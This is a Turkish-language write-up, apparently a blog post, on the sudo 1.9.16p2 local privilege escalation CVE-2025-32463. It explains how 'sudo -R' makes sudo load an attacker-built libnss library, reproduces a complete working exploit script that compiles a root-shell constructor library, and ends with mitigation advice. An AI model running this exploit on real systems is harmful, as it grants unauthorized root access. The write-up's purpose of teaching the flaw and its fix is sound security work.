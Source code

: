 
# Sudo 1.9.16p2 – CVE-2025-32463 Local Privilege Escalation Exploit

## Zafiyet Özeti

Bu write-up'ta, Rich Mirch tarafından yayınlanan `sudo-chwoot.sh` exploit kodunu kullanarak CVE-2025-32463 yerel yetki yükseltme (EoP) zafiyetini istismar ediyoruz. Zafiyet, `sudo`'nun `-R` parametresi (alternatif kök dizin belirleme) kullanılarak bazı güvenlik kontrollerini atlatabilmesinden kaynaklanıyor. Bu durum, bir kullanıcının özel olarak hazırlanmış bir ortamda `libnss` yüklemesini manipüle ederek root yetkili shell elde etmesini mümkün kılıyor.

---

## Hedef Sistem Özeti

| Özellik | Değer |
|--------|-------|
| Dağıtım | Kali 6.12.25 |
| Sudo Sürümü | 1.9.16p2 |
| Güvenlik Güncellemeleri | Kapalı |
| Kullanıcı Yetkisi | sudo erişimli, ancak sınırlı `sudo -R` izni |

---

## Exploit Nasıl Çalışıyor?

### 1. `libnss` Manipülasyonu

`sudo` komutu çalıştırılırken, sistem kullanıcı bilgilerini almak için `libnss` (Name Service Switch) kütüphanelerine başvurur. Normalde bu kütüphaneler `/lib/x86_64-linux-gnu/` gibi sistem dizinlerinden yüklenir. Ancak `sudo -R` komutu ile kök dizin değiştirilirse (`chroot` benzeri bir ortam), `libnss` dosyaları belirtilen dizin altından yüklenmeye çalışılır.

### 2. `constructor` ile Yürütme

Exploit, `libnss_woot1337.so.2` adında bir shared object (paylaşımlı nesne) üretir. Bu dosyanın içinde yer alan `constructor` fonksiyonu sayesinde kütüphane yüklendiği anda otomatik olarak çalıştırılır:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu kod, efektif kullanıcı ve grup kimliklerini `0` (root) yaparak, sistem kabuğunu root yetkileriyle başlatır.

### 3. `sudo -R` ile Tuzağa Düşürme

```bash
sudo -R woot woot
```

Bu komut, `woot` dizinini kök (`/`) olarak kabul eder ve orada `libnss_woot1337.so.2` dosyasının bulunduğunu varsayarak onu yüklemeye çalışır. Bu sırada exploit tetiklenir ve kullanıcı doğrudan root shell elde eder.

---

## Exploit Kod Analizi

```bash
#!/bin/bash
# CVE-2025-32463 – Sudo EoP Exploit PoC

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c <<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## Proof of Concept

Script'i çalıştırıyoruz ve ardından shell açılıyor, `id` komutuyla ile root yetkisi doğrulanıyor.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/PoC.png)

---

## Teknik Detaylar

- `sudo` çalışırken, kullanıcı bilgilerini almak için `libnss` dosyalarını kök dizinden (`/`) göreceli olarak yükler.
- `-R` bayrağı, bu yolu saldırganın kontrolündeki bir dizine yönlendirerek kendi kütüphanesini yüklemesine olanak tanır.
- Kütüphane yüklenince, içindeki `constructor` kodu tetiklenir.
- Kod, root yetkileriyle kabuk açar ve kullanıcının kontrolünü sisteme verir.

---

## Zafiyetin Giderilmesi

**Güvenlik önlemleri:**

- `sudo` sürümünüzü güncelleyin.
- Kullanıcıların `sudo -R` gibi özel root dizin belirleme yetkilerini kısıtlayın.
- NSS yüklemelerinde dış dizinlere güvenmeyin; sert yol tanımlamaları ve kütüphane doğrulaması uygulayın.

---

## Kaynaklar

- [https://www.stratascale.com/cve-2025-32463-analysis](https://www.stratascale.com/cve-2025-32463-analysis)
- [Exploit DB Kaydı](https://www.exploit-db.com/exploits/52352)
- [Rich Mirch – GitHub](https://github.com/mirchr/CVE-2025-32463-sudo-chwoot)

---

## Sonuç

Bu zafiyet, sistemin yapılandırma hatalarından faydalanarak root yetkilerinin kolayca alınmasına neden olmaktadır. `libnss` gibi temel sistem bileşenlerinin uygun şekilde yalıtılmaması ve `sudo -R`'nin etkili güvenlik kontrollerine tabi olmaması, bu açığın var olmasına neden olmuştur. Sistem yöneticileri, kullanıcıların yetkilerini dikkatli sınırlandırmalı ve `sudo` yapılandırmalarını düzenli olarak gözden geçirmelidir.

